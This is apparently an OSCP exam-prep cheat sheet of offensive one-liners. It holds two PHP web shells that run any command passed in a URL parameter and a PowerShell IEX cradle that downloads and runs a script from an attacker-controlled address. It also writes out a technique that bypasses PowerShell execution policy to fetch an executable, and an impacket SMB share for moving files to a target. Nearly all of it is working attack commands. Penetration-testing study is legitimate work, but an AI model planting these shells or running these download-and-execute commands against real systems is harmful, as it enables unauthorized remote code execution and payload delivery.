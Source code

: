 # OSCP_Prep

Simple php cmd shell
	<?php echo system($_GET["cmd"]); ?>
	<?php echo shell_exec($_GET["cmd"]); ?>


# Powershell download a file
	powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 


# Powershell download an execute file
	powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"


# Powershell execution restricted
	echo $storageDir = $pwd > wget.ps1
	echo $webclient = New-Object System.Net.WebClient >>wget.ps1
	echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
	echo $file = "output-file.exe" >>wget.ps1
	echo $webclient.DownloadFile($url,$file) >>wget.ps1
	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
	OR
	powershell.exe -nop -ep bypass -c wget.ps1



 
# Transfer file with SMB 
	sudo impacket-smbserver ROPNOP /sherad/folder

    Check share on target host:
	net view \\shareIP
	ls \\shareIP\ROPNOP
